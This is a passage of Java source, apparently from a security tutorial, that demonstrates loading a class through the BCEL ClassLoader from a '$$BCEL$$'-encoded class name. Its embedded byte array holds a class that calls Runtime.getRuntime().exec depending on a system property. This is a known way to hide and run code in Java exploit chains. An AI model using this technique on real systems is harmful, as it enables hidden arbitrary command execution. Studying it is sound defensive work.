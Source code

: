 ```java
			105, 111, 47, 73, 79, 69, 120, 99, 101, 112, 116, 105, 111, 110, 12, 0, 55, 0, 17, 1, 0, 39, 99, 111, 109,
			47, 97, 110, 98, 97, 105, 47, 115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 101, 114, 47,
			84, 101, 115, 116, 66, 67, 69, 76, 67, 108, 97, 115, 115, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110,
			103, 47, 79, 98, 106, 101, 99, 116, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114,
			105, 110, 103, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 121, 115, 116, 101, 109, 1, 0,
			11, 103, 101, 116, 80, 114, 111, 112, 101, 114, 116, 121, 1, 0, 38, 40, 76, 106, 97, 118, 97, 47, 108, 97,
			110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83,
			116, 114, 105, 110, 103, 59, 1, 0, 10, 115, 116, 97, 114, 116, 115, 87, 105, 116, 104, 1, 0, 21, 40, 76,
			106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 90, 1, 0, 17, 106, 97,
			118, 97, 47, 108, 97, 110, 103, 47, 82, 117, 110, 116, 105, 109, 101, 1, 0, 10, 103, 101, 116, 82, 117,
			110, 116, 105, 109, 101, 1, 0, 21, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 82, 117, 110,
			116, 105, 109, 101, 59, 1, 0, 4, 101, 120, 101, 99, 1, 0, 39, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110,
			103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114,
			111, 99, 101, 115, 115, 59, 1, 0, 15, 112, 114, 105, 110, 116, 83, 116, 97, 99, 107, 84, 114, 97, 99, 101,
			0, 33, 0, 14, 0, 15, 0, 0, 0, 0, 0, 2, 0, 1, 0, 16, 0, 17, 0, 1, 0, 18, 0, 0, 0, 29, 0, 1, 0, 1, 0, 0, 0,
			5, 42, -73, 0, 1, -79, 0, 0, 0, 1, 0, 19, 0, 0, 0, 6, 0, 1, 0, 0, 0, 5, 0, 8, 0, 20, 0, 17, 0, 1, 0, 18,
			0, 0, 0, -106, 0, 2, 0, 3, 0, 0, 0, 53, 18, 2, 75, 18, 3, -72, 0, 4, 76, 43, 18, 5, -74, 0, 6, -103, 0,
			9, 18, 7, 75, -89, 0, 15, 43, 18, 8, -74, 0, 6, -103, 0, 6, 18, 9, 75, -72, 0, 10, 42, -74, 0, 11, 87,
			-89, 0, 8, 77, 44, -74, 0, 13, -79, 0, 1, 0, 36, 0, 44, 0, 47, 0, 12, 0, 2, 0, 19, 0, 0, 0, 46, 0, 11,
			0, 0, 0, 8, 0, 3, 0, 9, 0, 9, 0, 11, 0, 18, 0, 12, 0, 24, 0, 13, 0, 33, 0, 14, 0, 36, 0, 18, 0, 44, 0,
			21, 0, 47, 0, 19, 0, 48, 0, 20, 0, 52, 0, 22, 0, 21, 0, 0, 0, 19, 0, 4, -3, 0, 24, 7, 0, 22, 7, 0, 22,
			11, 74, 7, 0, 23, -7, 0, 4, 0, 1, 0, 24, 0, 0, 0, 2, 0, 25
	};

	public static void main(String[] args) {
		try {
			// 使用反射是为了防止高版本JDK不存在com.sun.org.apache.bcel.internal.util.ClassLoader类
			Class<?> bcelClass = Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader");

			// 创建BCEL类加载器
//			ClassLoader classLoader = (ClassLoader) bcelClass.newInstance();
//			ClassLoader classLoader = new com.sun.org.apache.bcel.internal.util.ClassLoader();
			ClassLoader classLoader = new org.apache.bcel.util.ClassLoader();

			// BCEL编码类字节码
			String className = "$$BCEL$$" + Utility.encode(CLASS_BYTES, true);

			System.out.println(className);

			Class<?> clazz = Class.forName(className, true, classLoader);

```